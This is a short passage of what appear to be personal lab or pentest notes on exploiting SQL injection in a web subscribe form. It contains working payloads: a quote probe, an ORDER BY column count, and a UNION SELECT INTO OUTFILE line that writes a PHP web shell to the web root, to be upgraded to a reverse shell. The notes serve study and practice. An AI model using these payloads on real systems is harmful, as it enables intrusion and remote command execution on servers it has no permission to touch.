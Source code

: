 - If we navigate to port 80, capture the subscribe request using burpsuite and change the field to `'`, we can identify a sign of SQL injection in the HTML response.![[Pasted image 20240124161425 1.png]]
- We can first use `' ORDER BY 1 --` // to retrieve information on the column number of the target table which is 6.
	- Remember to URL-encode!
![[Pasted image 20240124181350 1.png]]![[Pasted image 20240124181420 1.png]]
- Then, after confirming the column number to be 6, we can use a `UNION` statement `' UNION SELECT "<?php system($_REQUEST['cmd']);?>", null, null, null, null, null INTO OUTFILE "/var/www/html/webshell.php" -- //` to upload a web shell which then can be upgrade to a reverse shell.
	- Remember to URL-encode!
![[Pasted image 20240124181758 1.png]]
